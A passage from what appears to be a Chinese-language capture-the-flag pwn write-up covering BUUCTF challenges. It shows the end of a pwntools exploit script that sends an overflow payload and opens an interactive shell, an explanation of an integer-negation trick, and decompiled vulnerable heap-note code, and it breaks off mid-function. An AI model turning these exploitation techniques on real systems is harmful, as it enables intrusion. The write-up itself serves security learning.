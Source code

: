 ```python
sla = lambda x, y: io.sendlineafter(x, y)
sa = lambda x, y: io.sendafter(x, y)
ru = lambda x: io.recvuntil(x)
rud = lambda x: io.recvuntil(x, drop=True)

sla(b'But Whether it starts depends on you.\n', cyclic(0x18) + p64(0x7FFFFFFFFFFFFFFF) + p64(0x3FB999999999999A))
io.interactive()
```

# buu100-wustctf2020_number_game
计算机组成原理的知识……对于32位整数而言，只有0x80000000这个数（-2147483648）取相反数的值为2147483648，还是0x80000000，所以表示的数不变。输入这个数就行了。

# buu101-zctf2016_note2
这道题提供了4个选项：增加、删除、修改、查看。其中修改能够提供2种选项——追加和覆写。修改部分的代码如下：
```c
void __fastcall edit()
{
  char *v0; // rbx
  int v1; // [rsp+8h] [rbp-E8h]
  int v2; // [rsp+Ch] [rbp-E4h]
  char *src; // [rsp+10h] [rbp-E0h]
  __int64 size; // [rsp+18h] [rbp-D8h]
  char dest[128]; // [rsp+20h] [rbp-D0h] BYREF
  char *tempbuf; // [rsp+A0h] [rbp-50h]
  unsigned __int64 v7; // [rsp+D8h] [rbp-18h]

  v7 = __readfsqword(0x28u);
  if ( put_limit )
  {
    puts("Input the id of the note:");
    v1 = input_int();
    if ( v1 >= 0 && v1 <= 3 )
    {
      src = ptr[v1];
      size = sizes[v1];
      if ( src )
      {
        puts("do you want to overwrite or append?[1.overwrite/2.append]");
        v2 = input_int();
        if ( v2 == 1 || v2 == 2 )
        {
          if ( v2 == 1 )
            dest[0] = 0;
          else
            strcpy(dest, src);
          tempbuf = (char *)malloc(0xA0uLL);
          strcpy(tempbuf, "TheNewContents:");
          printf(tempbuf);
          input(tempbuf + 15, 0x90LL, '\n');
          parse(tempbuf + 15);
          v0 = tempbuf;
          v0[size - strlen(dest) + 14] = 0;
          strncat(dest, tempbuf + 15, 0xFFFFFFFFFFFFFFFFLL);
          strcpy(src, dest);
          free(tempbuf);
          puts("Edit note success!");
        }
        else
        {
          puts("Error choice!");
```